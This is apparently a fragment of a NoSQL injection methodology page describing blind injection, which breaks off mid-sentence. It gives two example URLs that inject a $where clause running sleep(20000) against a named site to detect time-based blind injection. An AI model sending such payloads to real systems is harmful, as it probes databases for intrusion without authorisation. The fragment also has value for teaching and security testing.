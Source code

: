 # NoSQL Injection methodology 

### Blind NoSQL Injection
Suppose that the database returned no results in the browser, regardless of us submitting an included Star Wars character or not. So, we are talking about a “blind” 
```
https://obih.sg/?name=A',$where: 'function(){sleep(20000);}'}
https://obih.sg/?name=X,$where: 'function(){sleep(20000);}'}
```

